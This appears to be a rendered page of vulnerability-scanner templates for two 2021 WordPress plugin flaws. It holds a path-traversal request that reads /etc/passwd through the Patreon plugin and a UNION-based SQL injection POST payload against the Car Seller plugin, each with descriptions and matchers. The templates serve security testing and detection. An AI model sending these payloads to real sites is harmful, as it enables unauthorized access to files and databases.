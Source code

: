 **Type - status**
- status
    1. 200

---
# Patreon WordPress \< 1.7.0 - Unauthenticated Local File Disclosure
## Description
- The Jetpack Scan team identified a Local File Disclosure vulnerability in the Patreon WordPress plugin before 1.7.0 that could be abused by anyone visiting the site. Using this attack vector, an attacker could leak important internal files like wp-config.php, which contains database credentials and cryptographic keys used in the generation of nonces and cookies.
- severity - high
- tags - wordpress,patreon-connect,unauth,cve2021,lfi,patreon,wp,wpscan,cve
## Requests
- Method - GET
### URL
- {{BaseURL}}/?patron_only_image=../../../../../../../../../../etc/passwd&patreon_action=serve_patron_only_image
### Matchers

**Type - regex**
- regex
    1. root:[x*]:0:0

**Type - status**
- status
    1. 200

---
# WordPress Car Seller - Auto Classifieds Script - SQL Injection
## Description
- The request_list_request AJAX call of the Car Seller - Auto Classifieds Script WordPress plugin through 2.1.0, available to both authenticated and unauthenticated users, does not sanitize, validate or escape the order_id POST parameter before using it in a SQL statement, leading to a SQL injection issue.
- severity - critical
- tags - cve2021,wordpress,wp-plugin,sqli,wpscan,cve
## Requests
### Step - 1
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

action=request_list_request&order_id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a767671,0x685741416c436654694d446d416f717a6b54704a457a5077564653614970664166646654696e724d,0x7171786b71),NULL-- -

```
### Matchers
